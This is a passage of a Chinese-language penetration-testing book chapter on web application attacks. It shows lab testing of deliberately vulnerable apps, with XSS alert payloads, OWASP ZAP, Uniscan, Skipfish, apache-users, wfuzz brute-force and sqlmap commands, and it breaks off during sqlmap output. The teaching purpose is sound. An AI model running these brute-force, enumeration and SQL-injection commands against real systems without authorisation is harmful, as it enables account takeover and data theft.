## 8
## Web 应用程序攻击
Web 应用程序为组织提供了一些最大的攻击面。由于有如此多的 Web 应用程序可公开用于提供服务，必须确保它们是安全的。每天有数百万用户使用这些应用程序并输入各种数据，如个人身份信息、信用卡信息、健康信息等，一旦 Web 应用程序被入侵，所有这些数据都将对黑客开放。

尽管如此，Web 应用程序有很多 moving parts，因此对其进行渗透测试可能令人望而生畏。我列出了在对 Web 应用程序进行渗透测试时我会测试的几个不同部分，并在该类别中包含了各种测试工具。这些类别遵循 OWASP 的建议，作为渗透测试期间需要验证的一些重要部分。如果你不熟悉 OWASP，或开放 Web 应用程序安全项目，你可以在此处获取更多信息：https://www.owasp.org/index.php/Main_Page。最简单地说，他们是一个非营利组织，其唯一使命是让软件安全对所有人可见，以便个人能够理解它们，从而在 Web 应用程序周围做出更好的安全决策。OWASP 每隔几年就会发布一次前十名，以真正向应用程序开发人员展示 Web 应用程序的当前趋势和威胁。上一次发布是在 2013 年，而今年 2017 年，新列表将在年内晚些时候发布。2017 年的拟议列表包括以下内容：
- Injection
- Broken authentication and session management
- XSS
- Broken access control
- Security misconfiguration
- Sensitive data exposure
- Insufficient attack protection
- Cross-site request forgery
- Using components with known vulnerabilities
- Under protected APIs

我们将涵盖该列表中大多数攻击。我们在之前的章节中已经涵盖了一些项目，但我想获得一个良好的攻击类型和工具的混合，涵盖 Web 应用程序测试的各个方面。需要记住的一点是，该列表绝非详尽无遗。总是有其他攻击存在，并且这种情况在不断变化。跟上 OWASP 的建议始终是最佳实践。

本章将讨论以下主题：
- Manipulation by client-side testing
- Infrastructure and design weaknesses
- Identity-based testing
- Validating data, error handling and logic
- Session management

### 客户端测试的操纵
就 Web 应用程序而言，客户端测试是一个重要问题。不仅需要担心他人在客户端浏览器中执行代码的能力，还需要考虑这将如何影响 Web 服务器和应用程序。客户端测试涉及 XSS（跨站脚本）、JavaScript 执行和 WebSockets 等项目，仅举几例。

客户端问题并非新事物，但随着为保护免受服务器端攻击而增加的关注和安全措施，黑客已转向客户端攻击。客户端攻击围绕基于浏览器的漏洞展开，这些漏洞源于未修补的浏览器或零日漏洞。利用 Web 应用程序，可以尝试攻击客户端机器，并在该客户端机器上获得立足点以做任何想做的事情。不仅客户端机器需要修补并拥有最新浏览器，而且 Web 应用程序程序员也必须确保他们以安全的方式编程 Web 应用程序，以防止这些攻击发生。

以下工具针对这些问题，可以用来验证是否可以执行其中一些选项。我将在我的实验室中展示它们各自的示例，以及如何最大限度地利用它们。我还将解释这些攻击，以及为什么要保护免受其侵害。


## 跨站脚本攻击

跨站脚本，或简称为 XSS，是一种 Web 应用程序漏洞，用户可以在其中注入将在客户端运行的脚本。这些脚本通常具有恶意性质，并在互联网上随处可见。它们通常发生在输入字段未对输入进行验证或正确编码的地方。当这种情况发生时，恶意用户可以向字段中输入脚本，并且在表单提交时，脚本将被运行。

通常存在两种 XSS 攻击分类，即存储型 XSS 攻击和反射型 XSS 攻击，我将在接下来的两个部分中进一步讨论这两种攻击。

### 反射型 XSS 攻击

反射型 XSS 攻击发生在脚本被反射自 Web 服务器以便运行时。浏览器允许其运行，因为它认为该脚本来自受信任的服务器。它们通常通过诸如错误消息或搜索结果之类的内容从 Web 服务器反射出来。但从技术上讲，只要部分输入发送到 Web 服务器，它们就可以通过任何响应被反射回来。反射型 XSS 攻击，或非持久型 XSS 攻击，往往是最常见的 XSS 攻击。

为了测试反射型 XSS 攻击，我将尝试向网站中的姓名字段插入一些代码，以便在按下提交按钮时，如果 XSS 攻击成功，代码将被运行。

首先，我将浏览到该站点并验证页面是否正常工作，然后查看 URL：



提交后，我可以看到它输出了姓名，并且也在 URL 中将其放在 name 变量之后：



让我看看是否可以创建一个警告弹出窗口。为此，我将以下内容输入到输入字段中：

```html
<script>alert("Your site is not protecting against XSS! Please fix ASAP!!")</script>
```

当我按下提交按钮时，我可以看到 URL 中包含我的脚本作为变量传递。我也可以看到 XSS 攻击成功了，因为我可以看到带有我指定的消息的警告弹出窗口：



### 存储型 XSS 攻击

另一种跨站脚本攻击类型是存储型 XSS 攻击。对于这些攻击，脚本被注入到存储在目标服务器上的字段中。这些包括访客留言簿、消息论坛、访客日志或数据库等项目。受害者随后会检索信息以及脚本，然后恶意脚本将被运行。存储型 XSS，或持久型 XSS，通常并不常见，但也往往更具破坏性。

为了尝试存储型 XSS 攻击，我将尝试查看表单的工作方式。我将填写表单并提交以验证一切正常工作：



我可以看到消息已正确提交，因为我的消息现在作为有效条目显示在屏幕上：



现在，让我看看是否可以将脚本插入表单以执行存储型 XSS 攻击。像之前的示例一样，我将尝试打印出带有消息的警告框。我将输入以下内容：

```
<script>alert("Bad Code")</script>
```

一旦我点击“签名留言簿”，我可以看到弹出窗口显示了我的消息。这验证了该特定 Web 应用程序容易受到存储型跨站脚本攻击：



以下是带有我选择的文本的警告框：



## 使用 OWASP ZAP 查找会话问题

OWASP ZAP 是一款出色的多用途工具，直接来自 OWASP，因此由具有深厚安全和 Web 应用程序背景的安全人员设计。它是查找 Web 应用程序中各种漏洞的绝佳渗透工具，因此任何从事 Web 应用程序测试的人都应将其纳入工具箱。OWASP ZAP 可以执行以下任务：

- 对站点进行蜘蛛发现
- 充当代理
- 主动和被动扫描
- 修改请求和响应

它是 Web 应用程序渗透工具的瑞士军刀，这只是它能做的事情的子集。

在本次练习的实验室测试中，我将使用扫描功能查找任何与会话相关的信息/漏洞/问题。以下是我在实验室中采取的逐步操作。

- 1. 一旦我启动 OWASP ZAP，我会看到默认屏幕，此时不应有任何内容。OWASP ZAP 是一个非常强大的工具，可用于许多 Web 应用程序测试程序，但在我的示例中，我将使用它来扫描基于会话的漏洞，以便我可以利用其他工具检索和使用该会话信息。以下是呈现给我的默认屏幕：



- 2. 然后我将输入要攻击的 URL。输入后，我将点击攻击按钮：



- 3. 一旦我点击攻击，工具首先会对站点运行蜘蛛程序以将其全部列出。完成后，它将开始主动扫描。整个过程中它会显示进度条，显示扫描的进度。取决于站点的大小，此部分可能需要一些时间才能完成：



- 4. 现在进入重点部分。然后你可以浏览到 Alerts 选项卡，查看 OWASP ZAP 在 Web 应用程序中发现的任何问题。如下面所示，发现了许多问题：



- 5. 我将重点关注 Cookie No HttpOnly Flag 以及 Web Browser XSS Protection Not Enabled。如果我深入研究其中每一个，我将能够找到包含这些问题的页面，以及如下截图所示的对问题的详细描述：



## 基础设施和设计弱点

许多人理解基础设施对坚固且安全的网络的重要性，但他们忽略了基础设施对 Web 应用程序也很重要的事实。设计不良的基础设施也可能导致 Web 应用程序中的安全问题。例如，如果你的 Web 服务器和数据库服务器位于完全相同的网络上，那么被攻破的 Web 服务器很可能会导致数据库服务器被攻破。

就像基础设施设计一样，Web 应用程序的实际设计对于成功且安全的 Web 应用程序至关重要。因此，作为渗透测试人员，你希望确保 Web 应用程序安全，并且没有任何可能导致安全事件的设计缺陷。

我将使用以下工具检查我的 Web 应用程序是否存在任何基础设施或设计弱点。

### Uniscan

Uniscan 是一款快速易用的漏洞扫描器，旨在检测远程文件包含、本地文件包含和远程命令执行漏洞。根据我的测试，它是一款功能强大的 Web 应用程序扫描器，能够完成工作。它包含基于 CLI 的版本以及基于 GUI 的选项。我倾向于使用命令行版本，因此在下面的实验室示例中使用了此版本。

运行 Uniscan 有几个 CLI 选项。在帮助指南底部，有几个示例可帮助你根据想要指定主机的方式进行指导，以及大量选项可根据你的最终目标打开某些检查。

```
###########################
#### Uniscan project###
#### http://uniscan.sourceforge.net/###
###########################
V. 6.3
OPTIONS:
    -h      help
    -u      <url> example: https://www.example.com/
    -f      <file> list of url's
    -b      Uniscan go to background
    -q      Enable Directory checks
    -w      Enable File checks
    -e      Enable robots.txt and sitemap.xml check
    -d      Enable Dynamic checks
    -s      Enable Static checks
    -r      Enable Stress checks
    -i      <dork> Bing search
    -o      <dork> Google search
    -g      Web fingerprint
    -j      Server fingerprint
usage:
[1] perl ./uniscan.pl -u http://www.example.com/ -qweds
[2] perl ./uniscan.pl -f sites.txt -bqweds
[3] perl ./uniscan.pl -i uniscan
[4] perl ./uniscan.pl -i "ip:xxx.xxx.xxx.xxx"
[5] perl ./uniscan.pl -o "inurl:test"
[6] perl ./uniscan.pl -u https://www.example.com/ -r
```


我倾向于使用 -q，这将启用目录检查，-w 将启用文件扫描，-e 将启用 robots.txt 和 sitemap.xml 检查，-d 将启用动态扫描，-s 将启用静态检查。

这里是我在实验室中运行的命令，用于使用 Uniscan 检查目标 Web 应用程序中的任何漏洞：

```
root@pi-kali:~# uniscan -u http://192.168.33.31/ -qweds
```

运行一小段时间后，发现了第一个问题，应用程序中存在可能的后门。显示的一个很好的信息是它列出了页面。这非常方便，因为我现在可以立即去修复那个特定问题：



在 Web 应用程序中发现的 PHP 信息泄露信息：



以下是发现 Web 应用程序中大量 SQL 注入攻击的部分：

```
Blind SQL Injection:
[+] Vul [Blind SQL-i]: http://192.168.33.31/mutillidae/index.php?do=toggle-security&page=login.php+AND+1=1
[+] Keyword: return
[+] Vul [Blind SQL-i]: http://192.168.33.31/mutillidae/index.php?do=toggle-security&page=captured-data.php+AND+1=1
[+] Keyword: return
[+] Vul [Blind SQL-i]: http://192.168.33.31/mutillidae/index.php?do=toggle-security&page=register.php+AND+1=1
[+] Keyword: return
[+] Vul [Blind SQL-i]: http://192.168.33.31/mutillidae/index.php?do=toggle-security&page=show-log.php+AND+1=1
[+] Keyword: return
[+] Vul [Blind SQL-i]: http://192.168.33.31/mutillidae/index.php?do=toggle-security&page=credits.php+AND+1=1
[+] Keyword: return
[+] Vul [Blind SQL-i]: http://192.168.33.31/mutillidae/index.php?do=toggle-security&page=user-info.php+AND+1=1
[+] Keyword: return
[+] Vul [Blind SQL-i]: http://192.168.33.31/twiki/bin/view/TWiki/WebHome?rev=1.76+AND+'1'='1
[+] Keyword: Welcome
[+] Vul [Blind SQL-i]: http://192.168.33.31/twiki/bin/view/TWiki/TWikiRegistration?skin=print+AND+1=1
[+] Keyword: Collaborative
```

通过我展示的示例，可以看出 Uniscan 是一个方便的小型 Web 应用程序扫描器，可以产生一些很棒的信息，而且使用起来并不困难。

## 使用 Skipfish 进行 Web 应用程序侦察

Skipfish 是一个极其快速的 Web 应用程序侦察工具。它全部用 C 编写，因此速度极快且高度优化。正因如此，它可以对主机执行许多测试以生成令人印象深刻的报告。

在我的实验室中，我扫描了目标主机，大约花费了 7 小时左右。但报告中提供的信息令人印象深刻。请务必考虑时间框架。硬件在其中也起着关键作用。我是从 Raspberry Pi 运行扫描的。对于我的测试，我通过 CLI 运行了以下命令：

```
root@pi-kali:~# skipfish -o 202 http://192.168.33.31/dvwa
```

每秒请求的数目将决定测试需要多长时间。如果该数字降至 200 以下，完成可能需要更长时间。以下是完成后拍摄的屏幕截图。下方已为您总结了大量有用的信息：

```
skipfish version 2.10b by l.camtuf@google.com

- 192.168.33.31 -

Scan statistics:
  Scan time : 6:49:08.822
  HTTP requests : 573803 (23.4/s), 1705660 kB in, 303886 kB out (81.9 kB/s)
  Compression : 0 kB in, 0 kB out (0.0% gain)
  HTTP faults : 20 net errors, 0 proto errors, 0 retried, 0 drops
  TCP handshakes : 5722 total (100.3 req/conn)
  TCP faults : 0 failures, 20 timeouts, 6 purged
  External links : 35139 skipped
  Reqs pending : 0

Database statistics:
  Pivots : 8194 total, 8110 done (98.97%)
  In progress : 0 pending, 0 init, 5 attacks, 79 dict
  Missing nodes : 5567 spotted
  Node types : 1 serv, 322 dir, 1707 file, 639 pinfo, 5473 unkn, 52 par, 0 val
  Issues found : 3236 info, 2569 warn, 224 low, 3007 medium, 3315 high impact
  Dict size : 532 words (532 new), 15 extensions, 256 candidates
  Signatures : 77 total

[+] Copying static resources...
[+] Sorting and annotating crawl nodes: 8194
[+] Looking for duplicate entries: 8194
[+] Counting unique nodes: 1244
[+] Saving pivot data for third-party tools...
[+] Writing scan description...
[+] Writing crawl tree: 8194
[+] Generating summary views...
[+] Report saved to '█index.html' [0xd5a94f61].
[+] This was a great day for science!
```

但 skipfish 的真正价值在于生成的 HTML 报告。如果您进入报告，您可以真正深入细节，对 Web 应用程序获得很好的视角。

以下是主索引页面。我可以根据文档类型对报告进行细分，如下所示：


### 爬取结果 - 点击展开：

### 文档类型概览 - 点击展开：

- **application/javascript** (3)
- **application/pdf** (1)
- **application/xhtml+xml** (31)
- **image/gif** (4)
  - 1. http://192.168.33.31/icons/back.gif (216 bytes) [ 显示跟踪 + ]
  - 2. http://192.168.33.31/icons/blank.gif (148 bytes) [ 显示跟踪 + ]
  - 3. http://192.168.33.31/icons/text.gif (229 bytes) [ 显示跟踪 + ]
  - 4. http://192.168.33.31/mutillidae/images/twitter.gif (1828 bytes) [ 显示跟踪 + ]
- **image/jpeg** (7)
- **image/png** (7)
- **image/x-ms-bmp** (2)
- **text/css** (5)
- **text/html** (32)
- **text/plain** (4)
- **text/xml** (1)

我也可以按问题类型查看。此选项的一个很棒的功能是，问题会根据紧急程度进行整洁的颜色编码，以及为该类型找到的问题数量。这对于帮助了解整个 Web 应用程序的当前紧急程度非常有用：

### 问题类型概览 - 点击展开：

- PUT 请求被接受 (98)
- 查询注入向量 (1024)
- Shell 注入向量 (584)
- 检测到签名匹配（更高风险） (5)
- 可能存在目录遍历 / 文件包含 (2)
- 有趣的服务器消息 (21)
- 字符集不正确或缺失（更高风险） (854)
- 通用 MIME 类型（更高风险） (1)
- MIME 类型不正确或缺失（更高风险） (2)
- 页面中嵌入外部内容（更高风险） (1)
- 通过任意 URL 的 XSS 向量 (1)
- 文档正文中的 XSS 向量 (481)
- 检测到签名匹配 (9)
- 缓存指令不正确（较低风险） (40)
- HTML 表单无明显 XSRF 保护 (21)
- 目录列表限制被绕过 (153)
- 节点应为目录，检测错误？ (94)
- 响应随机变化，跳过检查 (586)
- IPS 过滤已启用 (107)
- 父级行为检查失败（无暴力破解） (48)
- 目录行为检查失败（无暴力破解） (259)
- 超出限制，获取被抑制 (257)
- 资源获取失败 (8)

我可以点击任何问题类型以获取所发现内容的细分，如下所示：

### 可能存在目录遍历 / 文件包含 (2)

- 1. http://192.168.33.31/mutillidae/index.php?page=../home.php [显示跟踪 +]
  备忘：responses for ./val and .../val look different
- 2. http://192.168.33.31/mutillidae/?page=../add-to-your-blog.php [显示跟踪 +]
  备忘：responses for ./val and .../val look different

然后，如果我真的想深入了解信息，我可以点击显示跟踪，如下所示：

```
HTTP trace - click this bar or hit ESC to close

=== REQUEST ===
GET /utilities/index.php?page=../home.php HTTP/1.1
Host: 192.168.33.31
Accept-Encoding: gzip
Connection: keep-alive
User-Agent: Mozilla/5.0 SF/2.10b
Range: bytes=0-399999
Referer: http://192.168.33.31/
Cookie: PHPSESSID=12eb799738fbb4b154d37d79b8c4993; security=high; phpMyAdmin-291e7057cde10a795b11dbd1f9b67070a0e2ccd; pma_lang=en-utf-8; pma_charset=utf-8; pma_collation_connection=deleted; pma_theme=deleted; showhints=0; pma_fontsize=deleted; pmaUser-1=sf029718v177437AAAAAA%3D%3D; pmaPass-1=deleted

=== RESPONSE ===
HTTP/1.1 200 OK
Date: Mon, 06 Mar 2017 10:07:28 GMT
Server: Apache/2.2.6 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Logged-in-User:
Cache-Control: public
Pragma: public
Last-Modified: Mon, 06 Mar 2017 10:07:26 GMT
Keep-Alive: timeout=15, max=91
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
```

再次，这是一种很好的分析 Web 应用程序以查找任何漏洞的方法。然后，您可以利用这些信息尝试利用或测试该漏洞，或者您可以将其作为参与结束报告的一部分提交给利益相关者。我通常会将此报告包含在测试的任何 Web 应用程序中，作为一些很好的资料。

## 基于身份的测试

身份控制是 Web 应用程序的关键功能。您希望确保人们就是他们所说的那样，并且他们只能做被允许做的事情。

如今大多数，如果不是全部的 Web 应用程序，在使用该应用程序之前都需要某种形式的身份验证，因此它是个人或黑客首先遇到的项目之一。因此，确保它在应该工作时工作，并拒绝不应该在场的用户非常重要。

对 Web 应用程序进行默认用户名和密码测试是跨所有应用程序进行身份测试的重要部分。更改默认用户名和密码是实现强大的 Web 应用程序态势时易于取得的成果。您还希望确保用户根据其角色有权访问所需的内容。当只有 2 人需要完全访问权限时，不应有 27 个具有管理权限的用户。我将探讨您可以对 Web 应用程序执行的某些测试，以使您拥有强大的身份控制。


## 基于角色的访问控制

身份测试的一个重要部分是确保拥有访问权限的人员，其访问权限与其角色相符。例如，如果有一个用户需要登录系统以读取应用程序生成的所有日志，并且这就是其唯一关注点，那么就不应允许该用户登录后更改内容。另一个例子是拥有可以向应用程序添加用户的用户。他们不应能够更改管理员用户的密码。我可以继续举例，但重点是您希望角色来定义用户的访问权限。

通常，对此的测试相当简单。我将用户从 Web 应用程序用户数据库中提取出来，并将其与这些用户的角色进行交叉引用。然后我验证用户是否具有与其工作角色相匹配的正确权限。这是一个快速而强大的测试。

## Apache-users

Apache-users 是针对启用了 UserDir 模块的 Apache 服务器设置使用的枚举工具。至少，您将指定 wordlist、主机，然后开始。非常易于使用的工具，并且检查非常特定的功能，但可以提供有价值的信息，可用于最终的发现报告：

```
root@pi-kali:~# apache-users
USAGE: apache.pl [-h 1.2.3.4] [-l names] [-p 80] [-s (SSL Support 1=true 0=false)] [-e 403 (http code)] [-t threads]
```

运行测试针对没有问题的主机时，输出如下：

```
root@pi-kali:~# apache-users -h 192.168.1.129 -l /usr/share/wordlists/metasploit/unix_users.txt -p 80 -s 0 -e 403 -t 10
Execution time: 34 seconds!
```

但是，运行测试针对存在问题的主机时，输出如下：

```
root@pi-kali:/usr/share/wfuzz# apache-users -h 192.168.33.3 -l /usr/share/wordlists/metasploit/unix_users.txt -p 80 -s 0 -e 403 -t 10
ROOT exists on 192.168.33.3
daemon exists on 192.168.33.3
ftp exists on 192.168.33.3
lp exists on 192.168.33.3
nobody exists on 192.168.33.3
root exists on 192.168.33.3
sshd exists on 192.168.33.3
www exists on 192.168.33.3
Execution time: 15 seconds!
```

就这样。快速、简单，但功能强大。我能够通过此脚本枚举系统中大量用户名。然后我可以利用这些信息对账户进行暴力破解。

## Wfuzz

Wfuzz 是一个 Web 应用程序暴力破解实用程序。它可用于各种不同的基于暴力破解的攻击，包括检查不同类型的注入攻击、用户名或密码检查、模糊测试等等。由于本节是基于身份的测试，我将使用暴力破解用户名和密码检查。我已为用户名和密码选择了 wordlist。我将使用 -hc 302 开关来忽略 302 响应，以便我只能看到有效的响应。我还指定了我将进行暴力破解的 URL。由于我将为输入提供两个文件，我可以在 URL 中使用变量 FUZZ 和 FUZZZ 来指定它们，其中第二个表示第二个变量。

我需要做的第一件事是获取 PHP 会话 ID（PHPSESSID）。为此，我将浏览网站并在浏览器中调出开发者工具菜单。这样我就可以获取一个会话 ID 以插入到 wfuzz 中。以下是我的会话中 PHPSESSID 的屏幕截图：



以下是我将运行以尝试暴力破解 Web 应用程序的命令。请注意，我使用了之前获取的 PHPSESSID，以及适当的 wordlist 和登录的 URL：

```bash
root@pi-kali:/etc# wfuzz -b PHPSESSID=55e8ff7e0bec6bfbf3485bb9272f8acc -z file,/usr/share/wfuzz/wordlist/general/user.txt -z file,/usr/share/wfuzz/wordlist/general/pass.txt http://192.168.33.31/dvwa/vulnerabilities/brute/?username=FUZZ\&password=FUZZZ\&Login=Login#
```

当我运行命令时，输出如下。我已圈出成功的尝试。您会注意到单词编号与其他的不同。我还突出显示了有效的用户/密码组合：



从该示例中，您可以看到使用 wfuzz 暴力破解此 Web 应用程序是多么快速和简单，而且这只是使用 wfuzz 的一种方式。

有很多优秀的模糊测试软件，还有许多关于如何模糊测试不同类型 Web 应用程序的示例。请随意探索并找到最适合您需求的工具。

## 验证数据、错误处理和逻辑

让您的 Web 应用程序收集数据非常重要，因为这通常是存在 Web 应用程序的主要原因。但系统如何处理这些数据非常重要，尤其是对安全专业人员而言。Web 应用程序需要能够处理传入的数据，但它们对输入错误数据时的反应是我们作为渗透测试人员想要测试的内容。有时，当输入错误数据时，Web 应用程序会发生不想要的事情，我们希望确保这种情况不会发生。

我们还需要确保显示给用户的数据也是正确的。您不希望向用户提供不必要的信息，或向用户提供他们不应看到的信息。一个很好的例子是用户能够查看其账户信息以更改密码。您不希望该用户能够查看所有账户。

错误处理也很关键。您永远不希望向用户发布用户不需要的信息。有人可能会利用这些信息来了解有关应用程序工作原理的更多信息。因此，我们希望确保应用程序正确处理错误等，并且不会向用户泄露任何额外信息。

逻辑也起着关键作用。如果用户本应遵循某个流程从 A 点到达 G 点，如果用户可以跳过步骤直接从 A 点到 G 点会怎样？应用程序会中断并阻止用户吗？还是某些步骤可以被绕过并可能获得提升的权限？这就是为什么测试应用程序的逻辑很重要。

在以下部分中，我将介绍一些工具，展示如何测试数据验证和错误处理。

## 使用 Sqlmap 进行 SQL 注入

SQLmap 是一款用于检测和利用 SQL 注入漏洞的渗透工具。一旦被利用，它就可以使用各种开关对数据库执行一系列操作。这包括指纹识别、数据库列表、这些数据库中的表列表，甚至转储整个数据库。它支持这里的所有主要数据库厂商，并完全支持六种不同的 SQL 注入技术。如需更多信息，请务必查看 http://sqlmap.org。现在，让我们尝试测试我们的应用程序是否存在 SQL 注入漏洞，如果发现漏洞，则执行一些测试以获取一些数据。

首先，我们需要获取会话 ID。我将以与使用 wfuzz 时相同的方式完成此操作。首先，我将打开浏览器，并在打开开发者工具的情况下，连接到我将尝试进行 SQL 注入的 URL：



一旦我获得了该 cookie ID，我就可以启动 sqlmap 语法。在我的 sqlmap 语法中，我需要指定我想要尝试运行 SQL 注入的 URL，以及 cookie 信息。我还将指定 -dbs 标志，以便让 sqlmap 找出底层数据库。

```bash
root@pi-kali:~# sqlmap -u "http://192.168.33.31/dvwa/vulnerabilities/sqli/?id=user&Submit=Submit#" --cookie="PHPSESSID=eb6e6cd3ca8532aa5abb6edf879713e7; security=low" --dbs
```

```
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting at 02:23:59
[02:24:01] [INFO] testing connection to the target URL
[02:24:01] [INFO] testing if the target URL is stable
[02:24:02] [INFO] target URL is stable
[02:24:02] [INFO] testing if GET parameter 'id' is dynamic
[02:24:02] [WARNING] GET parameter 'id' does not appear to be dynamic
[02:24:02] [INFO] heuristics detected web page charset 'ascii'
[02:24:02] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[02:24:02] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting attacks
[02:24:02] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
```


根据以上输出，你可以在上面的最后一行看到，sqlmap 确定运行的数据库是 MySQL。然后我跳过了所有其他特定测试，只专注于 MySQL 测试。运行各种测试后，我的 sqlmap 返回了识别出哪个参数存在漏洞，以及两个注入点：

```
GET parameter 'id' is vulnerable. Do you want to keep testing the others
(if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 202
HTTP(s) requests:
---
